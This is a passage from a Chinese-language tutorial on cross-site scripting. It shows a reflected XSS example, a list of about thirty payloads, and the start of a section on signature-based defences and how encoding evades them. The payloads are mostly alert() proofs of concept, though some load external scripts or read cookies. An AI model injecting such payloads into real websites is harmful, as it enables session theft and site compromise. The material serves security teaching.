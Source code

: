 返回的HTML代码如下：

```html
<input type="text" class="Seach" name="w" value="abc"/>
<script>alert("haha")</script><!–" />
```

这样，

```
<script>alert("haha")</script>
```

被执行了。这里再举例一些XSS攻击行为：

```
<img src="javascript:alert("xss");">
<img src=javascript:alert("xss")>
<img src="javascript:alert(string.fromcharcode(88,83,83))">
<img src="jav ascript:alert("xss");">
<script/xss src="http://example.com/xss.js"></script>
<<script>alert("xss");//<</script>
<iframe src=http://example.com/scriptlet.html <
<input type="image" src="javascript:alert("xss");">
<body background="javascript:alert("xss")">
<body onload=alert(document.cookie)>
<body onload!#$%&()*~+-_.,:;?@[/|"]^`=alert("xss")>
<img dynsrc="javascript:alert("xss")">
<img dynsrc="javascript:alert("xss")">
<br size="&{alert("xss")}">
<img src="vbscript:msgbox("xss")">
<table background="javascript:alert("xss")">
<div style="width: expression(alert("xss"));">
<div style="background-image: url(javascript:alert("xss"))">
<style type="text/javascript">alert("xss");</style>
<style type="text/css">body{background:url("javascript:alert("xss")")}</style>
<?="<script>alert("xss")</script>"?>
<a href="javascript:document.location="http://www.example.com/"">xss</a>
<img src=javascript:alert("xss")>
<embed src="http://ha.ckers.org/xss.swf" allowscriptaccess="always"></embed>
a="get";
b="url(""";
c="javascript:";
d="alert("xss");"")";
eval(a+b+c+d);
```

# 5 XSS攻击防御

## 5.1 基于特征的防御

XSS漏洞和著名的SQL注入漏洞一样，都是利用了Web页面的编写不完善，所以每一个漏洞所利用和针对的弱点都不尽相同。这就给XSS漏洞防御带来了困难：不可能以单一特征来概括所有XSS攻击。

传统XSS防御多采用特征匹配方式，在所有提交的信息中都进行匹配检查。对于这种类型的XSS攻击，采用的模式匹配方法一般会需要对 "javascript"这个关键字进行检索，一旦发现提交信息中包含"javascript"，就认定为XSS攻击。这种检测方法的缺陷显而易见：骇客可以通过插入字符或完全编码的方式躲避检测：
